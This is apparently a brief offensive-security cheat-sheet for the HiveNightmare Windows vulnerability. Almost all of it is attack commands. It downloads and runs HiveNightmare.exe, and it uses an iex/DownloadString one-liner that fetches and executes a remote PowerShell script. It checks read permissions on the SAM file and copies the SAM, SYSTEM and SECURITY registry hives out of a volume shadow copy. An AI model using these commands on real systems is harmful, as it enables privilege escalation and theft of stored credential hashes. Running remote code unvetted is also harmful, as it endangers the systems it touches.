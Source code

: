 ### requirements
```
- system protection must be in enabled state
- system must have at least one shadow copy
```

### exploit
```
iwr https://github.com/GossiTheDog/HiveNightmare/releases/download/0.6/HiveNightmare.exe -OutFile HiveNightmare.exe
.\HiveNightmare.exe
```

### alternative
```
iex((New-Object Net.WebClient).downloadString('https://github.com/WiredPulse/Invoke-HiveNightmare'))
```

### manually - check for read permissions
```
icacls C:\Windows\system32\config\sam
```

### copy shadow copy (sometimes HarddiskVolumeShadowCopy2 or HarddiskVolumeShadowCopy3)
```
foreach($i in @("SYSTEM","SECURITY","SAM")){[System.IO.File]::Copy("\\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\$i", "C:\temp\$i")};
```

### References
https://github.com/GossiTheDog/HiveNightmare  
https://github.com/WiredPulse/Invoke-HiveNightmare  

